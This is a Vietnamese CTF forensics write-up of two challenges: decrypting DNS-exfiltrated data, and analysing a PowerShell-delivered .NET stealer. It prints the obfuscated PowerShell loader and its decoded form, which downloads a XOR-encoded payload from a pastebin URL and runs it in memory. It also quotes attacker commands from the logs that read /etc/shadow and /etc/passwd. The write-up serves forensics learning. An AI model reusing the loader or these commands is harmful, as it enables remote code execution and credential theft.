








## Lời nói đầu
Lần đầu tham gia SVANM, dù kết quả không khả quan lắm, nhưng ít nhất tôi đã hoàn thành mục tiêu làm được một bài Forensics của mình.
Hẹn SVANM năm sau, tôi sẽ quay lại (có thể yếu hơn hehe).
# DNS Exfil
### Challenge Description
>A mysterious intrusion occurred in the company's internal Web Portal system, and there are signs that a hacker has stolen some data from the server. The administrator has now narrowed down the time frame and collected 03 files to serve the digital forensics investigation process. Based on the analysis of the log files and network packets - you must follow the trail, piece together the disjointed fragments, and recover the secret data that was stolen. Hidden deep inside is the FLAG you need to find.

Sau khi giải nén file zip đính kèm thì ta nhận được 1 file pcap và 2 file log

Bắt đầu với file `10.10.5.80_access.log` sau khi xem qua một hồi thì thấy một số hành động bất thường từ ip `192.168.13.37` như:
* Nhiều lần đăng nhập thất bại vào `admin`
* Tải lên file `upload-media.php`
* Chạy các lệnh như `whoami`, `ping` và đặc biệt là `cat /etc/shadow` và `cat /flag` nhưng không thành công
* Tải lên lại file `upload-media.php` sau đó chạy `getfile.php` với các giá trị đã được encode Base64, sau khi decode nhận được kết quả là `/etc/passwd`, `/flag`,  `/var/www/html/.env`


Tiếp đến với file `10.10.5.80_error.log`, vì đã xác định được ip của kẻ tấn công nên chỉ cần dùng grep để xem file log này đã lưu lại được những hành động gì
Tại file này phát hiện khi kẻ tấn công chạy `getfile.php` với `debug=true` đã để lộ hai phần log quan trọng:
* `APP_SECRET=F0r3ns1c-2025-CSCV; DATE_UTC=20251010`
* `H=SHA256(APP_SECRET); AES_KEY=H[0..15]; AES_IV=H[16..31]`

Từ đây nhận thấy rằng kẻ tấn công đã mã hóa thông tin bằng AES với `H=SHA256(APP_SECRET)` với `APP_SECRET=F0r3ns1c-2025-CSCV`, sau đó chia `H` ra làm hai phần, 16 byte đầu làm `Key` và 16 byte còn lại làm `IV`
Từ đó có được:
* `Key=5769179ccdf950443501d9978f52ddb5` 
* `IV=1b70ca0d4f607a976c6639914af7c7a6`

Cuối cùng là đến với file `10.10.0.53_ns_capture.pcap`, khi mở lên ta thấy được rất nhiều packet DNS

Sau khi sort theo độ dài của gói thì thấy có các domain lạ với 2 domain bắt đầu bằng `f.` và 4 domain bắt đầu bằng `p.`

Sau khi lọc phần hex ra và sắp xếp theo thứ tự gói tin thì nhận được flag sau khi giải mã `AES` bằng `Key` và `IV` ở trên với chuỗi hex bắt đầu bằng `f.`

```
CSCV2025{DnS_Exf1ltr4ti0nnnnnnnnnnNN!!}
```
# NostalgiaS
### Challenge Description

>The CIRT received an IR request from FAIZ Company regarding their accountant, Mr. Kadoya. Threat Intelligence reported that his sensitive data was exfiltrated and sold on the black market. Digital evidence from his workstation was collected for analysis. Examine it to determine the scope, impact, and root cause of the compromise.

Sau khi giải nén ta nhận được một file `.ad1`, sử dụng `FTK Imager` để mở lên thì thấy đây là một file dump ổ đĩa `C:\`

Khi tìm đến thư mục `Documents` của người dùng `kadoyat` thì thấy có những file `.xlsm` là những file excel có chứa macro nhưng khi kiểm tra bằng `olevba` thì không có gì khả nghi lắm

Sau một hồi check qua các thư mục thì manh mối đầu tiên mình có được là khi check EventLog 
Khi check đến `EventID 4104` thì mình để ý đến một đoạn script khá đáng nghi
như sau
```shell!
ScriptBlockText: Iex(neW-obJecT  iO.cOMPrESsion.DeflaTEStreAM([iO.meMORysTrEAM] [convErt]::FroMbase64sTrInG('hVNhb9owEP2OxH+wUCSCIIZO06Qy7QNt1a1rxyZg6ybEJic5iFfHzhxTiLr+953BlKSgNV+i3N17797lzhvkOaShKL5qQd6RRmJMlve73YzlBkIuaaTSrmar7mnvD/wYfxg06jXvu9LXUGB5b/3qNX5PigyGLAVLMDbABOiPTDKOYA10xGPQ1zy6s9BPYBIV74pHS4nBes3ogjzUawQf7xbCc8FBGiwYwir4HP6GyJBxgQ2ldAiGPlU4BMhIxRCfK2m2sD0HvVArKRSLx0ZzufC9kt3Wc0F6wfNM5eC7jMsnsP7GxBJyy1zVohPNU79FgjwT3JBmp0n+ktsENOzafiDeLxKkzEQJaf7srae94HQQXLJgPmt7TfJYUXLkZ4XZiJXchxiazkq90BuQC5NsgXOlie9x+0PeEnwHwhyW2ky73drN+UBw6vEZMkzR2j1oM+v3J8om/D2TLXGWO+TkjRtT1YPSfMElE/8xUVZ92ceR6mNWKrrOy6G/IFyjhlvgY+0ztx92Em7lRjAX2D5Xku62B4dzg0vlV1Ura8PnaOXpMAIJpNEgAZMxKd/ANl51YphegLFQa2HXEH2/je1JWyVMuqG8knNlMXsGi9rK+SXZzjFvZ1zGeCKXgi1y9Dc2zPAIB4bzern6yzIUPDreEb2S9+oOG5dLITpk83q+Oo8k2pyImwOs8ZpOMPwP' ) ,[SYSTeM.io.comPRESsion.COmPRessiONmODe]::DECompResS) |FOReach-oBJeCt{ neW-obJecT  SyStEM.Io.STreAmREaDeR( $_,[TEXT.EncOdiNG]::ascIi ) }| FOreacH-objeCT{$_.rEAdToeND( ) }) ,
```

Dễ nhận thấy đây là một đoạn script độc hại, sau khi decode chuỗi base64 ở giữa ta được kết quả

```shell!
$AssemblyUrl = "https://pastebin.com/raw/90qeYSHA"
$XorKey = 0x24
$TypeName = "StealerJanai.core.RiderKick"
$MethodName = "Run"

try {
    $WebClient = New-Object System.Net.WebClient
    $encodedContent = $WebClient.DownloadString($AssemblyUrl)
    $WebClient.Dispose()
    
    $hexValues = $encodedContent.Trim() -split ',' | Where-Object { $_ -match '^0x[0-9A-Fa-f]+$' }
    
    $encodedBytes = New-Object byte[] $hexValues.Length
    for ($i = 0; $i -lt $hexValues.Length; $i++) {
        $encodedBytes[$i] = [Convert]::ToByte($hexValues[$i].Trim(), 16)
    }
    
    $originalBytes = New-Object byte[] $encodedBytes.Length
    for ($i = 0; $i -lt $encodedBytes.Length; $i++) {
        $originalBytes[$i] = $encodedBytes[$i] -bxor $XorKey
    }
    
    $assembly = [System.Reflection.Assembly]::Load($originalBytes)
    
    if ($TypeName -ne "" -and $MethodName -ne "") {
        $targetType = $assembly.GetType($TypeName)
        $methodInfo = $targetType.GetMethod($MethodName, [System.Reflection.BindingFlags]::Static -bor [System.Reflection.BindingFlags]::Public)
        $methodInfo.Invoke($null, $null)
    }
    
} catch {
    exit 1
}
```
Script này tải payload từ `https://pastebin.com/raw/90qeYSHA` về sau đó xor với `key=0x24` sau đó chạy class `StealerJanai.core.RiderKick`
Sau  khi giải mã kiểm tra bằng `DIE` thì thấy được viết bằng `c#` nên sẽ phân tích tiếp bằng `DotPeek`

Khi mở lên bằng `DotPeek`, khi kiểm tra đến class RiderKick thì biết mã độc này thu thập thông tin máy nạn nhân và gửi về Discord

Sau khi kiểm tra thì thấy phần ta cần tìm tại class `StealerJanai.component.systeminfo.SystemSecretInformationCollector`

```csharp
using Microsoft.Win32;
using System;
using System.Collections.Generic;
using System.Text;

#nullable disable
namespace StealerJanai.component.systeminfo;

public class SystemSecretInformationCollector
{
  private const string MagicChars = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";

  public string Collect()
  {
    StringBuilder stringBuilder = new StringBuilder();
    try
    {
      string str = $"{this.DecodeMagicToString("AuEcc3iNuamB9JOyfS1pel55JqxgJ83")}{Environment.MachineName}_{this.DecodeMagicToString("sA0m1sPHdceUL6HSvGAbFuhN")}{this.GetRegistryValue()}}}";
      stringBuilder.Append(str);
    }
    catch (Exception ex)
    {
      stringBuilder.AppendLine($"Error: {ex.Message}");
    }
    return stringBuilder.ToString();
  }

  private string DecodeMagicToString(string input)
  {
    try
    {
      if (string.IsNullOrEmpty(input))
        return string.Empty;
      List<byte> byteList = new List<byte>();
      foreach (char ch in input)
      {
        int num1 = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".IndexOf(ch);
        if (num1 < 0)
          return "Invalid character";
        int num2 = num1;
        for (int index = byteList.Count - 1; index >= 0; --index)
        {
          int num3 = (int) byteList[index] * 62 + num2;
          byteList[index] = (byte) (num3 % 256 /*0x0100*/);
          num2 = num3 / 256 /*0x0100*/;
        }
        for (; num2 > 0; num2 /= 256 /*0x0100*/)
          byteList.Insert(0, (byte) (num2 % 256 /*0x0100*/));
      }
      int index1 = 0;
      while (index1 < byteList.Count && byteList[index1] == (byte) 0)
        ++index1;
      if (index1 >= byteList.Count)
        return string.Empty;
      byte[] bytes = new byte[byteList.Count - index1];
      for (int index2 = 0; index2 < bytes.Length; ++index2)
        bytes[index2] = byteList[index1 + index2];
      return Encoding.ASCII.GetString(bytes);
    }
    catch (Exception ex)
    {
      return "Decode error: " + ex.Message;
    }
  }

  private string GetRegistryValue()
  {
    try
    {
      using (RegistryKey registryKey = Registry.CurrentUser.OpenSubKey("SOFTWARE\\hensh1n"))
      {
        if (registryKey != null)
        {
          object obj = registryKey.GetValue("");
          if (obj != null)
            return obj.ToString();
        }
      }
      return "Registry key not found";
    }
    catch (Exception ex)
    {
      return "Registry error: " + ex.Message;
    }
  }
}
```
Class này thu thập thong tin máy nạn nhân và trả về chuỗi dưới dạng:
```
 string1_[computername]_string2_[registryvalue]
```
Với hai chuỗi đang bị encode base62 có kết quả là
```
CSCV2025{your_computer_[computername]_has_be3n_kicked_by[registryvalue]}
```
 Đã có khung của flag ta cần tìm, giờ thì cần tìm hai giá trị nữa thôi
 Mở hive `SYSTEM` vè tìm đến `SYSTEM\CurrentControlSet\Control\ComputerName\ComputerName` và nhận được tên máy: `DESKTOP-47ICHL6`

Tiếp đế là mở NTUSER.DAT và tìm đến `Software/hensh1n` và nhận được giá trị còn lại: `HxrYJgdu`

Ghép lại với phần bên trên ta nhận được flag hoàn chỉnh
```
CSCV2025{your_computer_DESKTOP-47ICHL6_has_be3n_kicked_byHxrYJgdu}